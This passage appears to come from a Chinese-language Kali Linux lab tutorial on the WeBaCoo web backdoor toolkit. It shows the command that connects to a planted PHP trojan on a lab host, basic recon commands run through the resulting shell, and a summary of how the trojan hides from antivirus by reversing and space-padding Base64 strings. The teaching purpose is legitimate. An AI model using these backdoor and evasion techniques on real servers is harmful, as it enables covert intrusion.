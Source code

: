 ```
# 连接目标主机，建立会话
webacoo -t -u http://192.168.122.1/hello.php
```

成功之后，命令行前缀发生了变化，如下图所示：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481014707333.png-wm)

**注意：成功后终端前缀 `root@Kali:` 变成了 `webacoo$`**

### 4.5 查看系统信息

在命令行的前缀变成了 `webacoo$` 之后，可以使用 Linux 的基础命令，查看当前信息以及用户信息：

```
# 查看当前用户 id
id

# 查看当前用户
whoami

# 查看当前目录下有哪些文件
ls

# 查看系统信息
ifconfig
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481014938827.png-wm)


## 五、总结和思考

### 5.1 总结和思考

本实验介绍的是 web 后门程序脚本的工具包 WeBaCoo（全称为 Web Backdoor Cookie）的具体使用。其中介绍了 WeBaCoo 如何创建一个 PHP 木马程序，并对生成的木马程序 `hello.php` 进行了源码分析。从分析的过程中，我们知道 WeBaCoo 创建 PHP 木马程序，使用 HTTP 响应头传送命令结果，Shell 命令会由 Base64 编码后，隐藏在 Cookie 头中。

创建 PHP 木马程序的思路为，先通过 strrev() 函数，对 Base64_decode 字符进行反转，接着对于 Base64 编码生成的字符串，使用空格混夹在代码里，欺骗免杀程序，提高木马的存活率。

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/ff207c4ac994ae597a753f238bd6b2de/1481623151367.png-wm)

## 六、课后作业

### 6.1 课后作业

工具包 WeBaCoo 对于在 Kali 的 MSF 终端中，也有相应的模块，该模块是使用 Ruby 语言进行编写的。对底层实现感兴趣，并且有 Ruby 基础的同学，可以阅读 WeBaCoo 工具在 MSF 中的 `msf_webacoo_module.rb` 源码：

> https://github.com/anestisb/WeBaCoo/blob/master/msf_webacoo_module.rb
